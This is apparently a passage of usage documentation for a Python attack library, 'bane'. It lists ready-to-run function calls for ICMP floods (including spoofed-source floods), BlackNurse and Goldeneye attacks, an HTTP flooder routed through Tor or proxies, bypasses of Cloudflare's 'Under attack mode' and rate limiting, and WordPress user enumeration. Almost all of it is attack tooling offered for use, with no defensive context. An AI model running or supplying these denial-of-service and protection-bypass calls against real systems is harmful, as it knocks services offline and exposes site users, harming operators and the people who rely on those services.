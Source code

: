 <div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.icmp_flood(IP, p= port , min_size=10, max_size=20 , duration= 300 , interval=0.001 , threads=500 )
</pre></div>
<h4>ICMP FLOOD with spoofed sources:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.spoofed_icmp_flood(IP, p= port , min_size=10, max_size=20 , duration= 300 , interval=0.001 , threads=500 )
</pre></div>
<h4>BlackNurse attack:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.blacknurse(IP, p= port , duration= 300 , interval=0.001 , threads=500 )
</pre></div>
<h4>Goldeneye attack:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.goldeneye(IP, p= port , duration= 300 , threads=500 , timeout=5 )
</pre></div>
<h4>Doser attack:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.doser(link , duration= 300 , set_tor=False , threads=500 , timeout=5 )
</pre></div>
<h4>Doser attack through proxies:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.doser(link , duration= 300 , threads=500 , timeout=5 )
</pre></div>
<h4>Bypass "Under attack mode" provided by CloudFlare:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.cf_kill_ua(link , duration= 300 , threads=500 , timeout=5 )
</pre></div>
<h4>Bypass "Under attack mode" provided by CloudFlare and Rate-Limiting:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.cf_kill_ua_rate_limiting(link , duration= 300 , set_tor=False , threads=500 , timeout=5 )
</pre></div>

# WordPress testing:

<h4>Users list:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.wp_users(link , timeout=15 )
</pre></div>

